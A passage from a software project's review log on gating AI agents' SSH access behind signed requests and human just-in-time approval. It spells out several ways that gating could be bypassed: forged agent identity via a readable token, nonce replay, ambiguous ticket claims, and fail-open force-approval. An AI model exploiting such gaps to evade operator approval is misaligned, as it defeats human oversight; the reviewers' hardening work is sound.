  own host public key (from `/etc/ssh/ssh_host_ed25519_key.pub`) in the
  token-authenticated registration and heartbeat. The dashboard stores the
  fingerprint and refuses to `ssh_exec` a gateway that has no pin. A
  changed key in a heartbeat raises an audit event and does **not** re-pin.
  Re-pinning is an explicit, audited operator action. **Tests:** no pin
  means refused; a mismatch is refused and audited; a heartbeat with a new
  key does not change the pin.

*Should fix:*

* **S1 (Q3) `read_only` should refuse non-reads.** `approval` already means
  "ask me about everything". If `read_only` also queues writes for the
  operator, the two modes differ only in whether reads auto-run. That is
  the tired-operator risk the note names. Return
  `{status: "refused", reason: "read-only agent"}` and create no request.
* **S2 Timeouts.** Killing the local `ssh` does not stop the remote
  command. Say that F19 is the real bound, and that until F19 the `timeout`
  only limits how long the agent waits. Keep `timeout` ≤ 120 s, and note
  that a JIT TTL of 90 s means `wait` cannot exceed 60 s usefully.
* **S3 The capability flag fails closed.** `ssh_exec` refuses a gateway
  that has not reported the capability, as written. Also refuse one whose
  version predates the R1 MAC format, so a half-updated fleet cannot
  downgrade the format.

*Answers to the open questions:*

1. **Signing key.** Using the gateway token with a label is acceptable to
   me if the key is derived as `HMAC(token, "eshu-ssh-agent-v1")` and that
   derived key is used for the MAC. Rotating the token then rotates it.
   This is the security reviewer's call.
2. **`from=` and NAT.** Keep `from=`, and reuse the installer's existing
   `ALLOWED_SSH_FROM` override for NAT or a proxy. Do not ship a line
   without `from=`.
3. **`read_only`.** Refuse; see S1.
4. **Key location.** Default to `/var/lib/eshu/ssh/`, with an env override
   (`ESHU_SSH_KEY_DIR`). Refuse to start the runner if the directory is not
   `0700` and owned by the service user, or if the key is not `0600`.
5. **`wait: true`.** Keep it, capped at 60 s. When the cap is reached,
   return `pending` with the `request_id`, so the agent falls back to
   `check_request`.

*For the security reviewer (no change asked here):* the existing
`ESHU_SESSION_SIG` has the same "logged and not bound to the command" shape
as R1. It is out of F12's scope. It belongs with security Chunk 6 or 7.

Once R1–R6 are written into the note, F12 goes to the security reviewer
(§ 2.6a) for design sign-off. No code until both approvals are recorded.

**Design round 2 (2026-11-09, main feature reviewer): approved in principle;
fold in A1–A5, then it goes to the security reviewer.** R1–R6 are right, and
the reasoning in §6 (force-JIT has to cover the dashboard's auto paths too)
and §8 (one envelope, output only inside it) is exactly what was missing.
Five parts are still underspecified and would become bugs in the code. Add
them to the note (no code):

* **A1 Nonce store on the gateway.** The gateway is a new process per SSH
  call, so "a seen-nonce set" must be a file. Specify it:
  * Path: `/run/eshu/nonces`, which inherits the poller's 0700 root-owned
    checks.
  * Concurrency: `flock` around check-and-add, so two concurrent calls with
    the same nonce cannot both pass.
  * Pruning: entries older than the ±300 s window are dropped on each write.
  * Size bound: if the file is over N entries, refuse new signed calls
    (fail closed) rather than evict unexpired nonces.
  * Tests: two concurrent calls with the same nonce, exactly one passes.
* **A2 Canonical form and HMAC tooling.** Make the MACed string unambiguous:
  a fixed field order joined with `\n`, every field validated against a
  charset without `\n`, and the version label first. Say how the gateway
  computes HMAC without `python3` on the hot path: reuse whatever
  `ESHU_SESSION_SIG` verification uses today, or `openssl dgst -sha256
  -mac HMAC -macopt hexkey:…`, with the key **never on argv**, so pass it by
  file or stdin. Give a test vector shared by the dashboard and gateway
  tests.
* **A3 Every gateway `echo` in MCP mode.** Today the gateway prints banners
  and status lines on many paths (JIT "request sent", "[OK] Approved!
  Executing…", blocklist and freeze messages, timeouts). In MCP mode none
  of these may reach stdout. List the stdout writers in `eshu-gateway.sh`
  and route them through one `say()` helper, which prints in direct mode
  and appends to the envelope's `messages` field (escaped) in MCP mode.
  Test: in MCP mode, stdout is exactly one envelope line on every path
  (ran, pending, blocked, frozen, Zero-Trust, encoded, bad signature).
  Also settle the output cap: F5's capture keeps 16 KiB, while this note
  says 64 KiB. Pick one for MCP mode and show the bash.
* **A4 Ticket format and compatibility.** The new ticket line carries agent
  and session in front of the command (`ts|agent|session|cmd`, with the
  command last so `|` inside it survives).
  * Say who writes it: the poller, from a new field in the approval
    payload.
  * The new gateway must still read old `ts|cmd` lines as agent-less.
  * An old poller writing old lines must never let a signed MCP request
    claim an agent-less ticket. A signed request may only claim a ticket
    for its own agent.
  * Tests for both directions.
* **A5 State the trust change plainly.** Until now the dashboard could
  approve commands but not start them. With the dashboard key it can start
  a command on every gateway, so a compromised dashboard can now both start
  and approve its own commands. JIT still runs on the gateway, but the
  approval lives on the same dashboard. Write this as an accepted risk, and
  list the mitigations:
  * `from=` on the key;
  * per-gateway `ssh_mode` with `direct+mcp` as default, so the key can be
    left off sensitive gateways;
  * the key file's modes;
  * an audit row per `ssh_exec`.

  Add one option for the security reviewer to decide: a per-gateway "never
  accept the dashboard key" switch (the installer omits the line).

**Design round 3 (2026-11-09, main feature reviewer): feature side approved;
to the security reviewer.** A1–A5 are complete and specific. I recomputed the
shared test vector independently (command hash, derived key and signature)
and all three match. Two small points to apply in the code, with no need for
another design round:

* **N1** `consume_nonce` checks `"$ts $nonce"`. Check the **nonce alone**,
  so a repeated nonce is refused whatever timestamp it comes with. The MAC
  already binds the timestamp, but the store should not depend on that.
* **N2** The envelope prints `request_id` from `DISPLAY_ID`, which is
  zero-padded (`000123`) and is not a valid JSON number. Use
  `REQUEST_ID_INT`. Add it to the envelope test.

**For the security reviewer:**

1. The key derivation (§5, A2).
2. The nonce store failing closed (A1).
3. The ticket compatibility rules (A4).
4. The accepted risk in §12 (A5): with the dashboard key, the dashboard can
   start commands as well as approve them. Decide whether the per-gateway
   "never accept the dashboard key" switch is in scope.
5. The note moves the existing `ESHU_SESSION_SIG` key-on-argv to Chunk 7.

#### Security reviewer sign-off

**2026-11-09: design approved on conditions (security chat, reviewed at
`3a286cb`).** This was a design and code-text review of the note and the
bash it shows, checked against `eshu-gateway.sh` and `db/gateways.py`.
Nothing was run. Write conditions G1–G8 into the note before any code. The
gateway bash (prefix parsing, nonce store, ticket parsing, `say()` and the
envelope) then comes back to the security chat as a code review before
merge.

**What holds:**

* The MAC covers every prefix field, the command hash and the gateway
  identity, in a versioned canonical form that cannot contain a newline.
  That is the right shape, and it is also the model for Chunk 6's binding
  of the session signature to the command.
* Force-JIT is enforced on both sides, and the dashboard re-derives it from
  the agent's policy. A dashboard bug can only add gating.
* Host keys are pinned from the token-authenticated registration, and a
  changed key is never re-pinned silently.
* The envelope is the only stdout, with all output base64-encoded inside it,
  so a command cannot forge a status.
* The key never goes on argv for the new helper. Signatures and nonces are
  never logged.

**Conditions:**

* **G1: the dashboard signs with the derived key, not the token.** Today the
  dashboard stores gateway tokens in plain text. Chunk 7 will store only a
  hash of them, and after that the dashboard cannot compute `K` from the
  token. Rule: compute `K` when a token is set or rotated, store it in its
  own column, and sign with that column. `K` never appears in logs or in any
  API response.
* **G2: the gateway refuses half-signed and ambiguous prefixes.**
  * If any of `ESHU_AGENT`, `ESHU_AGENT_SIG`, `ESHU_TS`, `ESHU_NONCE`,
    `ESHU_MCP` or `ESHU_FORCE_JIT` is present without a valid signature, the
    gateway refuses the request in every `ssh_mode`, rather than ignoring
    the fields. Otherwise an unsigned agent name could reach attribution.
  * A prefix key that appears twice is refused. Today the parse loop keeps
    the last value it sees.
  * `ssh_exec` refuses a command whose first word starts with `ESHU_`.
  * §5 writes `ESHU_SESSION=` in the prefix but `ESHU_SESSION_ID` in the
    canonical form. Use `ESHU_SESSION_ID` throughout.
  * State how strict sessions apply. The valid agent MAC covers the session
    id, so the gateway may accept it *in place of* `ESHU_SESSION_SIG`, but
    only when the MAC is valid.
* **G3: hash exactly the bytes the gateway will run.** The gateway trims
  whitespace before the command reaches the hash, and Python's `strip()` is
  not the same trim (the F3 SR1 lesson). Rule: `ssh_exec` refuses a command
  with leading or trailing whitespace or any control character other than
  tab and newline, instead of hashing something the gateway will change.
* **G4: the nonce store, in four fixes:**
  * (a) N1: check the nonce on its own.
  * (b) Never truncate the store in place. If the write after
    `cat … > nonces` fails, it leaves an empty store, and the *next* call
    accepts replays. Use a separate lock file, write the pruned list plus
    the new nonce to a temp file, and rename it into place.
  * (c) Check the timestamp and the MAC first, and write the nonce only
    after both pass. Otherwise unsigned garbage from a shared-key caller can
    fill the 4096-entry bound and lock out every signed call for five
    minutes.
  * (d) Keep the store across restarts. `/run` is cleared on reboot, and a
    container restarts in seconds, well inside the ±300 s window. Put the
    store in a persistent, root-only `0700` directory such as
    `/var/lib/eshu/`, and refuse the call if the store is missing and cannot
    be created.

  Tests: a failed write leaves the previous store intact; a call with a bad
  MAC adds no entry; and a replay after the store's directory is recreated
  is still refused.
* **G5: version the ticket line, and require the new poller.**
  * Detecting the format by counting `|` is ambiguous. An old `ts|cmd` line
    whose command is a pipeline whose first words look like an agent and a
    session would parse as a ticket bound to that agent, for a shorter
    command than the one the human approved.
  * Rule: new lines start with a fixed tag (`v2|ts|agent|session|cmd`). A
    line without the tag is old: everything after the first `|` is the
    command, and the ticket is agent-less.
  * The capability check in §9 must also cover the poller's ticket format.
    Otherwise, on a gateway with an old poller, an MCP agent loops through
    pending, approve and refused for ever.
  * Test: an old line whose command looks like `agent|session|…` stays
    agent-less, and only an unsigned request for the *whole* command can
    claim it.
* **G6: a call on the dashboard key must be signed.** Give the dashboard
  line a forced command with a fixed marker argument, for example
  `… eshu-gateway.sh --dashboard-key`, and allow exactly that argument in
  sudoers. The gateway then refuses any call that arrives on the dashboard
  key without a valid signature, in every `ssh_mode`. A leaked key file
  without the derived keys then runs nothing. Callers on the shared key
  cannot set the marker, because sshd sets it.
* **G7: harden the runner.**
  * Connect to the registered IP and never resolve the hostname.
  * Pass `-F /dev/null`, so no user or system `ssh_config` applies (no
    `ProxyCommand`, no `Match`).
  * Use `UserKnownHostsFile=<pin file>` and `GlobalKnownHostsFile=/dev/null`.
  * The UI warns when `ALLOWED_SSH_FROM` on a gateway covers more than the
    dashboard's own address.
* **G8: one logging rule for every prefix.** The gateway logs the command
  only after *all* prefixes are stripped, `ESHU_SESSION_SIG` included. This
  delivers the Chunk 7 "stop logging the session signature" item as part of
  F12. That's fine, but the item stays open in Chunk 7 until whichever
  ships first is merged and deployed.

**Answers to the five questions:**

1. **Key derivation: acceptable.** HMAC keyed with the token over a fixed
   label is a sound one-step key derivation. It keeps the MAC key separate
   from the token's role as a bearer credential, and rotating the token
   rotates the key. Anyone who holds the token can forge an agent identity,
   but only on that one gateway, because the gateway's identity is in the
   MAC. Holding the token already means root on that gateway, so this adds
   nothing. Condition: G1.
2. **Nonce store: not yet.** The intent is right: everything happens under
   one lock, the bound fails closed, and errors refuse the call. But three
   paths let replays back in or lock out legitimate calls: the in-place
   truncate, writing the nonce before the MAC is checked, and the store
   being cleared on reboot. It fails closed once G4 is in.
3. **Ticket compatibility: sound rules, ambiguous format.** These rules are
   correct: a signed request claims only its own agent's ticket, and an
   unsigned request claims only an agent-less one. Fix the format detection
   and the poller check with G5.
4. **The accepted risk in §12: accepted. The "never accept the dashboard
   key" switch is not required in F12.** A compromised dashboard already
   controls the fleet, because it serves the installer, the feature scripts
   and the fleet runner, which run as root on every gateway (the Chunk 6
   threat). A switch enforced by an installer that the dashboard itself
   serves cannot stop a compromised dashboard. The switch only means
   something once gateways verify scripts against a key the dashboard does
   not hold, so design it in Chunk 6. The realistic risk F12 adds is a
   leaked key file, and G6 covers it.
5. **`ESHU_SESSION_SIG`'s key off argv: yes, in Chunk 7, but it is more
   than a cleanup.** While the helper runs, the fleet-wide session key is
   visible in `ps` and `/proc/<pid>/cmdline`. F4's read lane allows
   `ps aux` with no human approving it. Make it a third precondition for
   unlocking F4's `on` mode, next to the logging and binding items.

**Verdict:** design approved once G1–G8 are written into the note. The
feature reviewer checks the dashboard side of the code. The gateway bash
comes back to the security chat before merge.

**Code round 1 (2026-11-09, main feature reviewer): changes requested.**
I ran 278 F12, gateway-script, installer, poller and golden tests locally;
the implementer's full gate passed 2462.

*What holds in the gateway bash (`aa268de`):*

* **Prefix parsing:** keys are allowlisted, duplicate and half-signed
  prefixes are refused, and `printf -v` only touches listed names.
* **Signature:** `ts` and the MAC are checked **before** the nonce is
  consumed. The nonce store uses a separate lock file, a temp file plus
  rename, and fails closed on any error.
* **Dashboard key:** `--dashboard-key` is set only by the forced command
  (the forced command, not sudoers, blocks extra arguments; see the security reviewer's S3), and calls on it must be signed.
* **Logging:** one log line, after every prefix is stripped, with no
  prefix values.
* **MCP mode:** `say()`/`finish()` make stdout exactly one envelope, and
  `tee >/dev/null` keeps the stream off it.
* **Force-JIT:** the allowlist, the regex allowlist and the feature
  scripts are all skipped under force-JIT.
* **Tickets:** `ticket_allowed` binds the claim to the agent and session.
* **Poller:** it understands v2 lines when pruning.

*Dashboard:* the runner argv is fixed (`-F /dev/null`, the IP only,
`StrictHostKeyChecking=yes`, a per-gateway known_hosts file, process-group
kill). Session ownership fails closed. `read_only` refuses. The derived key
is stored (G1). G3 whitespace and control-character refusal is in.

*Must fix:*

* **M1 Old gateways break on the first dashboard deploy.** `ticket_line()`
  now always returns `v2|ts|agent|session|cmd`, from both
  `update_ticket_consumed_by_ip` (the poller) and `get_ticket_by_request_id`
  (the gateway's JIT claim), whoever asks.
  * An **old gateway's** JIT claim takes `split("|",1)[1]` (`<ts>|…|cmd`),
    which never equals `cmd`. The result is "Approved command does not
    match" on **every** approval.
  * An **old poller** prunes on `$1+90`, so every v2 line is deleted as
    stale.

  The rollout is "dashboard first, gateways later", so this breaks every
  approval fleet-wide until each gateway updates. Fix: emit
  `v2|…` **only** to a gateway whose stored `ssh_ticket_format == 'v2'`,
  and the old `ts|cmd` otherwise. A row that has an `agent` must never be
  issued in the old format: refuse it and audit, since `ssh_exec` already
  refuses gateways without the capability. Tests: an old-format gateway
  gets `ts|cmd` from both call sites; a v2 gateway gets v2; an agent row on
  an old gateway is refused.
* **M2 The approval race on re-run.** After approval, `ssh_exec(wait=true)`
  re-runs as soon as the row is `approved`. But the ticket reaches the
  lockbox only when the poller next calls `/api/poll`, which also flips the
  row to `consumed`. A re-run that lands first finds no ticket, so the
  gateway files a **second** JIT request. The operator is asked twice, and
  the first ticket expires unused. Agents that poll `check_request` and call
  again hit the same race.
  * Minimal fix: `wait` re-runs only once the row is `consumed`, which
    means the poller has taken the ticket.
  * `check_request` tells MCP agents "ready to re-run" only at `consumed`,
    and `approved` reads as "approved, delivering to the gateway".
  * Test with a simulated poller lag: no second request is created.

  (A deterministic alternative is a MAC-covered `ESHU_REQUEST_ID` that lets
  the MCP re-run claim through `/api/ticket/{id}`. It is cleaner but a
  design change, so only take it if the minimal fix proves flaky.)
* **M3 The force-JIT re-derivation fails open.** In `receive_request`,
  when the gateway sends `force_jit=false` with an agent:
  * an unknown agent leaves `force_jit=False`;
  * an exception sets it `False`;
  * an agent whose `ssh_mode` is unset gets `False`, while `ssh_exec`
    treats unset as `approval`.

  Make it fail closed: unknown agent → force; exception → force; unset
  mode → `approval` (one shared default constant used by both places).
  Tests for each.

*Should fix / answers to the open questions:*

* **S1** Report `ssh_agent_format` only when `/etc/eshu-token` exists. A
  gateway updated by self-update without a re-install has no token file;
  today every signed call there fails as `bad signature`, which is safe
  but confusing.
* **S2** In `PREFIX REFUSED` log lines, log `agent=` only when it passed
  its charset check, so nothing arbitrary reaches syslog.
* **Open question 1 (capture `off`):** honour the operator's setting. The
  agent still gets its output in the envelope, but `request_results`
  stores the exit code and duration only.
* **Open question 2 (`ALLOWED_SSH_FROM`):** the installer warns when it
  falls back. The gateway's detail view shows the `from=` addresses the key
  line was written with.

The gateway bash is with the security reviewer (their code review is
separate). M1 is the one item they may also flag.

**Code review of the gateway bash (aa268de, notes cfe8db0), 2026-11-09:
changes requested (R1–R4).** I read `eshu-gateway.sh`, `eshu-poller.sh`,
the installer template and the `ssh_exec` runner argv. I did not run anything.

*Must fix before merge:*

* **R1. Anyone on the gateway host can read the token, and with F12 the token
  signs requests.** The installer leaves `/usr/local/bin/eshu-gateway.sh`
  mode 0755 with `GATEWAY_TOKEN` written into it (true since v0.1.0). Before
  F12 this let a local user call the dashboard as the gateway. Now the
  signing key is derived from the token, so the same user can sign requests
  as any agent: take another agent's approved ticket, vouch for any session
  on a gateway that requires sessions, and pass `mcp_only`. The new 0600
  `/etc/eshu-token` protects nothing while a copy sits in a world-readable
  file.
  - Fix: install the gateway script 0700 root:root in every installer mode
    (install, reinstall and update). sudo runs it as root, and the poller is
    already 0700.
  - Write `/etc/eshu-token` with `umask 077`, so the temp file is never
    readable, not even for the moment before `chmod`. That applies to the
    installer and to both poller token-rotation paths.
  - Test: an installer sandbox run in each mode leaves the script at 0700
    and the token file at 0600. The token write runs under umask 077 in the
    installer and in the poller.
* **R2. The refusal log line records the unverified agent name.** Line 499
  logs `agent=${ESHU_AGENT}`, even when that value failed its character
  check, so raw bytes from the caller reach syslog. A newline in that value
  can forge a log line. G8 says no prefix value is logged.
  - Fix: log only the verified agent, or `none`.
  - Test: an agent value containing a control character is refused, and
    nothing from it appears in the logger output.
* **R3. The gateway does not refuse a command whose first word still starts
  with `ESHU_` after the prefixes are stripped (G2).** The dashboard refuses
  these for signed calls, but callers on the shared key reach the gateway
  directly. An unknown `ESHU_` key currently ends prefix parsing and becomes
  part of the command.
  - Fix: after the parse loop, refuse when the first word starts with
    `ESHU_`.
  - Test, in direct and MCP mode: an unknown key is refused, and so is a
    known key placed after an unknown one.
* **R4. In MCP mode, output is stored when capture is set to `exit-only`.**
  This answers open question 1. The operator's capture setting wins:
  - `off`: no result row. Line 222 already does this, so the implementation
    note's description is wrong.
  - `exit-only`: the exit code only.
  - `tail`: the tail.

  The agent already has the bytes from the envelope. Being more auditable
  does not justify overriding an operator's explicit choice to keep output
  off the dashboard (§2.5).
  - Fix: at line 228, drop the `-n "$ESHU_MCP_CAP"` alternative.
  - Test: an MCP run with `exit-only` capture posts an empty
    `encoded_output`.

*Where this meets the feature reviewer's code round 1:* their M1 (the
ticket format sent to old gateways) is a correct finding, and I agree with
it. R2 is their S2, made a must-fix. R4 is the same answer as theirs to open
question 1. One correction to their notes: the sudoers line does not
restrict the arguments (see S3); forced commands do.

*Should fix (may follow in a later chunk):*

* **S1. `ESHU_WINDOW_TOKEN` and `ESHU_EXECUTION_ID` are outside the MAC.**
  The dashboard never sends them on a signed call, so refuse them in a
  signed prefix. This also keeps the window script's direct `echo` from
  breaking an MCP envelope. Test: a signed prefix carrying a window token is
  refused.
* **S2. The nonce store is not on the self-protection list.** Add
  `/var/lib/eshu` to the hard-coded list. Deleting the store would reopen
  the 300-second replay window. Test: a command naming that path is refused
  as FATAL.
* **S3. The sudoers line allows extra arguments.** It names the gateway
  script with no arguments, and in sudoers that means any arguments. Write
  `/usr/local/bin/eshu-gateway.sh ""` instead. Forced commands block extra
  arguments today, so this is defence in depth.
* **S4 (dashboard side, for the feature reviewer).** Check the gateway IP
  with a strict IP pattern just before `build_argv`, so the host argument
  can never start with `-`.

*Checked and fine:*

* **Prefix parsing (G2):**
  - Duplicate keys are refused.
  - Any one of the six identity keys requires the full signed set, in every
    `ssh_mode`.
  - The MAC helper reads the key from `/etc/eshu-token`, takes the canonical
    form on stdin and compares in constant time. Only the signature is on
    argv.
  - The canonical form hashes the trimmed command. That is also the exact
    command that runs, and the dashboard refuses surrounding whitespace, so
    the binding holds (G3).
* **The nonce store (G4):**
  - The nonce is checked alone.
  - A separate lock file, a temp file and a rename; the store is never
    truncated in place.
  - The nonce is written only after the timestamp and the MAC pass.
  - The store is in `/var/lib/eshu`, a 0700 directory.
  - Pruning by the signed timestamp matches the ±300 s window.
  - The environment overrides are scrubbed before use.
* **Ticket v2 (G5):**
  - The tag is parsed on all three paths: the lockbox claim, the
    consumed-ticket claim and the `/api/ticket` claim.
  - A signed call takes only its own agent's ticket, and only its own
    session's ticket when it names a session. An unsigned call takes only an
    agent-less ticket.
  - The poller prunes v2 lines by their own timestamp field.
* **The dashboard key (G6):** an unsigned call arriving on it is refused in
  every mode. `mcp_only` refuses unsigned calls, and the installer drops the
  shared-key line.
* **Envelope-only stdout:**
  - One `say()` writer, and every MCP exit path goes through `finish`.
  - `tee` writes to `/dev/null`.
  - The dashboard parser requires exactly one line. A command that writes to
    the gateway's own stdout, for example through `/proc`, gets
    `bad-envelope`, which fails closed.
* **Logging (G8):** the main line logs only the stripped command. Both
  heredoc fixes in round 6 are correct.
* **The runner (G7):** the argv carries `-F /dev/null`, the pinned
  `UserKnownHostsFile` and `GlobalKnownHostsFile=/dev/null`.
* **Open question 2:** the installer warning about `ALLOWED_SSH_FROM` is
  enough for G7. The UI follow-up is optional.
* **A re-register from an old installer clears the capability fields.**
  Agreed: that fails closed.

**Verdict:** changes requested. Once R1–R4 are fixed with their tests, I
review only that diff, not the whole bash again. F12 must not merge before
then.

**Code round 2 (feature reviewer, 2026-11-10, `c137e55`): approved, pending
merge-forward and the security diff check.**

* **The fixes:** M1–M3 and S1–S2 are fixed as asked, and so are the security
  reviewer's R1–R4 and S1–S4.
  * The dashboard sends the old `ts|cmd` line to a gateway that has not
    reported v2, and denies an agent row there, with an audit record.
  * `wait` re-runs only at `consumed`.
  * Force-JIT fails closed through one shared constant.
* **Tests:** 296 F12, installer, gateway-script and session tests pass
  locally. The implementer's full run is 2484.
* **Residual race (should, not blocking):** `consumed` is written when the
  poller *fetches* the ticket, a moment before it writes the lockbox line. A
  re-run that lands in that gap still files a second request. The window is
  milliseconds against a 2 s poll interval, so it is rare. If it shows up,
  `ssh_exec` can wait one more poll interval after seeing `consumed`.
* **The order from here:**
  1. `fix/ci-environment` merges first; it is the release blocker.
  2. This branch is merged forward onto the updated `feature-roadmap`. It
     conflicts with the CI fix in `eshu-gateway.sh`, both installers and
     `tests/test_gateway_script.py`: both rewrite the capture code. Keep the
     CI fix's `capture_tail`/`PIPESTATUS` code and F12's R4 rule in
     `post_exec_result`, then regenerate the installers.
  3. The security reviewer checks the merged-forward `eshu-gateway.sh`,
     installer-template and poller diff once, against `feature-roadmap`.
  4. Then I merge.

**Merge-forward review (feature reviewer, 2026-11-10, `bb12b76`): approved.**
CI is green. The MCP branch is `… | sanitize | capture_tail "$ESHU_MCP_CAP"
65537 >/dev/null`: one ring, no FIFO, no wait; `capture_tail` takes the cap as
`$2` with `cap + 2` slots and the C5 `delete`s; the envelope reads the last
65 536 bytes and the +1 tells "cut". Its output goes to `/dev/null`, so mawk's
input buffering (see the buffering-fix note) does not matter on this path.

* **Correction to the report:** B1 is **not** on this branch. It is only on
  `fix/stream-unbuffered`, which has not merged; `sanitize` here is still plain
  `sed -E`. After that fix merges, merge `feature-roadmap` forward once more
  (expect a small conflict at `sanitize`; take the `SANITIZE_CMD` form), then
  the security reviewer re-checks the merged gateway diff, then I merge F12.

**Second merge-forward (feature reviewer, 2026-11-10, `8534f58`): approved; to
the security reviewer for the merged gateway diff.** CI is green. `sanitize`
is the roadmap's `"${SANITIZE_CMD[@]}"` form (`stdbuf -oL sed -E`, plain
`sed` plus one syslog line as fallback). The MCP branch is still
`capture_tail "$ESHU_MCP_CAP" 65537 >/dev/null`. Both installers embed both.
After the security check, I merge F12 into `feature-roadmap`.

**Security reviewer — merged gateway diff (2026-11-10, `61ad819`, read
against `feature-roadmap`): approved. F12 may merge.** I read
`dashboard/eshu-gateway.sh`, its copy embedded in both installers (identical
to the script), the installer's file modes, the sudoers line and the key
lines, and the S4 check in `core/ssh_exec.py`.

* **The buffering fix merge is right.**
  * `sanitize` is the roadmap's `SANITIZE_CMD` form, with the redaction rules
    unchanged.
  * MCP mode keeps `capture_tail "$ESHU_MCP_CAP" 65537 >/dev/null`. The ring
    has `cap + 2` slots, so a live line is never overwritten.
  * The F5 tail in MCP mode comes from the same capture, and R4's
    `exit-only` rule applies to it.
* **R1–R4 and S1–S4 are all in:**
  * R1: the script is installed `0700` and owned by root, and every write of
    `/etc/eshu-token` is a temp file under `umask 077`, then `chmod 600`,
    then a rename.
  * R2: only the verified agent name is logged.
  * R3: a leftover `ESHU_` first word is refused, including a known key
    placed after an unknown one.
  * R4 is done.
  * S1: a signed prefix carrying `ESHU_WINDOW_TOKEN` or `ESHU_EXECUTION_ID`
    is refused.
  * S2: `/var/lib/eshu` is on the self-protection list.
  * S3: the sudoers line allows exactly `""` and `--dashboard-key`.
  * S4: `IP_RE` is checked right before `run_ssh`.
* **The rest of the gate holds:**
  * prefix keys are an allowlist, a duplicate is refused, and the charsets
    are checked before the MAC;
  * the nonce is written only after the timestamp and MAC pass, through a
    temp file and a rename under a separate lock;
  * the dashboard key always requires a signature, and `mcp_only` refuses an
    unsigned call;
  * force-JIT skips the exact list, the regex list and the feature scripts;
  * a `v2` ticket is claimable only by its own agent and session, and an old
    line is agent-less, both in the lockbox claim and in the poll-claim path;
  * every exit in MCP mode goes through `finish`, and no bare `echo` is left
    after the prefix parse;
  * the window script prints with `echo`, but it only runs with a window
    token, which a signed prefix cannot carry. So it cannot write raw output
    into an MCP envelope.
* **Notes, not blocking:**
  * **N-a:** run the two inline Pythons (the MAC check and the session
    signature check) as `python3 -I`, so neither the working directory nor
    the environment can put a module ahead of `hmac` or `hashlib`. Sudo
    already resets the environment, so this is a small hardening step.
    Do it on the next gateway-bash branch.
  * **N-b:** `dashboard/static/dev/eshu-gateway-install.sh` has no F12 code
    (last changed before F5). If anything still serves it, regenerate it or
    remove it. A gateway installed from it would not enforce `mcp_only`.
  * **For the record:** in MCP mode nothing sees a client disconnect,
    because the output goes to `/dev/null`. The dashboard's timeout ends the
    wait, not the command. That is still accepted with F19 as the bound for
    unattended runs, as recorded in the F19 review.


---

## Chunk F13 — Session conclusions & runbooks · slug `session-conclusions` · dashboard + MCP

### Why

Sessions already hold the full trail: goal, every SSH command with its outcome
and approval path, every MCP call, and (after F5) outputs and exit codes. What is
missing is the **meaning**: what worked, what didn't, what the fix was. The agent
that did the job knows that best at the end of it. Captured and confirmed, it
becomes knowledge any later agent can retrieve: a strong cloud model (Hermes)
does the reasoning once, and a small local model (F17) reuses it cheaply.

### Changes

* **MCP tool** `session_conclude(session_id, outcome, summary, worked[],
  did_not_work[], root_cause?, fix?, follow_ups[], tags[], runbook_candidate)`.
  * `outcome ∈ {solved, partial, failed, abandoned}`.
  * `worked` / `did_not_work` items may reference request ids / call ids from the
    session (`{"ref": "req:2594", "note": "…"}`); Eshu validates that the refs
    belong to that session.
  * Allowed once per session per agent (a second call replaces the draft until
    the operator confirms it). `session_summary` reminds the agent to call it.
* **Storage:** `session_conclusions` table (session id, agent, fields above, `status:
  draft | confirmed | rejected`, operator note, timestamps), with an SQLite **FTS5**
  index over summary, root cause, fix, tags and the session goal (no new dependency).
* **Operator review** in the session modal (F6 card): shows the conclusion next
  to the evidence (commands, outcomes, outputs), with Confirm / Edit / Reject.
  Only **confirmed** conclusions are served to agents. Agent text is untrusted,
  escaped in the UI, and never executed.
* **Runbooks:** a confirmed conclusion with `runbook_candidate: true` can be
  promoted to a **runbook**: title, when to use it (symptoms/tags), ordered
  steps, each step either a reference to a command/tool call that worked in the
  session (copied verbatim, with its F1 breakdown) or a short instruction, plus
  "known dead ends" from `did_not_work`. Runbooks are documents for agents
  to follow, not executable. F16 can turn one into a recipe.
* **MCP tools for retrieval:** `find_runbooks(query, tags?)` and
  `similar_incidents(query)` → top 5 confirmed items, compact (≤ 1,500 tokens
  each), with ids; `get_runbook(id)`.
* **Secrets:** conclusions and runbooks pass through `secret_scrub` on write and on read.

### Tests to add

* Refs must belong to the session; draft → confirmed flow; only confirmed are retrievable.
* FTS search ranking smoke test; scrubbed secrets; XSS escaping of agent text.
* Promotion copies steps verbatim and records the source request/call ids.

### Implementer notes

**What I did**

* **MCP `session_conclude`** (`core/mcp_server.py`, `core/conclusions.py`):
  outcome in `solved|partial|failed|abandoned`, summary required, worked /
  did_not_work items as `{"ref": "req:2594", "note": "..."}` (or a plain
  note); every ref is checked against **this** session — a request or
  integration call from another session, or an unknown id, is
  `ref_not_in_session`. The session's owner (when it has one) must match the
  caller. One conclusion per session per agent: a second call replaces the
  draft; a **confirmed** one is final (`already_confirmed`). Everything is
  length-capped and `secret_scrub`bed on write.
* **Storage** (`db/conclusions.py`): `session_conclusions` (session, agent,
  goal copy, all fields, status `draft|confirmed|rejected`, operator note,
  timestamps) with an **FTS5** table over summary, root cause, fix, tags and
  the session goal, kept in step by rowid (no external-content table, no new
  dependency). Status transitions are SQL-conditional, so a confirmed
  conclusion cannot be edited or re-drafted.
* **Operator review** in the session modal, under F6's wrap-up card: outcome,
  tags, summary, worked / did-not-work (refs labelled `request #N` /
  `call #N`), root cause, fix, follow-ups and the operator note, with
  **Confirm**, **Edit** (inline textareas for summary / root cause / fix) and
  **Reject** for a draft; a confirmed runbook candidate shows **Promote to
  runbook**, and a promoted one shows `Runbook #N`. All agent text is escaped;
  nothing is ever executed. Endpoints: `POST /api/conclusions/{id}/confirm`
  and `/reject`, `PATCH /api/conclusions/{id}`,
  `POST /api/conclusions/{id}/runbook`, each audited; `GET
  /api/sessions/{sid}/detail` now also returns `conclusions` (scrubbed again
  on read) and `runbooks`.
* **Runbooks**: promotion is server-side and operator-only. Each cited
  command is copied **verbatim** from the request row with F1's breakdown; a
  cited call keeps integration/tool/method/path; an uncited note becomes an
  instruction; did_not_work becomes `dead_ends`. Steps are capped at 20, and
  runbooks are documents, not executable (F16 can turn one into a recipe).
* **Retrieval**: `find_runbooks(query, tags?)`, `similar_incidents(query)` and
  `get_runbook(id)` return **confirmed** material only, top 5 (with a `more`
  flag), each incident under ~1,500 tokens (6,000 chars, trimmed with
  `truncated`). `session_summary` now carries `conclusion` (id/status) and a
  `next_step` reminder to call `session_conclude`.
* **Secrets**: every text field is scrubbed on write, and the stored payload
  is scrubbed again as JSON on read (`scrub_read`, `_scrub_payload`), so a
  token that slipped past one pass is still masked.
* **Screenshot**: `docs/screenshots/f13/conclusion-review.png` (source
